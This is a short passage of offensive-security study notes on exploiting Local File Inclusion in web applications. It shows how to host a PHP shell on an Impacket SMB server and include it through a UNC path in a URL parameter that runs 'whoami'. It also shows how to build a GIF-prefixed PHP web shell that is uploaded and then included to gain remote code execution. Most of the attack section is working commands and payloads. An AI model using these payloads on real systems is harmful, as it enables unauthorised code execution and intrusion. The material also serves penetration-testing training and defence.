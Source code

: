 An SMB server can be started using `Impacket's smbserver.py`, which allows anonymous authentication:

```sh
impacket-smbserver -smb2support share $(cmd)
```

Include hte script by using a UNC path:

`http://server:port/index.php?language=\\<our_ip>\share\shell.php&cmd=whoami`


## LFI and LFI Uploads

File upload functionalities can be vulnerable and can be used for LFI.

If the function has code execute capabilities, the code within the file we upload will be executed if we include it, regardless of the file extension or file type.

We can upload an `jpg` file and store a PHP web shell code within, and if we include it through the LFI, the PHP code will be executed.

These following functions allow execute:

```php
PHP
include();
include_once();
require();
require_once();
```

```js
NodeJS
res.render();
```

```java
JAVA
import
```

```.NET
.NET
include
```

### Image Upload

It's very common on a lot of web apps, and we can craft a malicious image, and use it for RCE.

#### Craft a malicious Image

First step is to use an allowed image extension, like `.gif`, and the `image magic bytes` like for gif for example `GIF8`.

```sh
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
The file on its own is harmless, but when combined with an LFI, we can reach RCE.
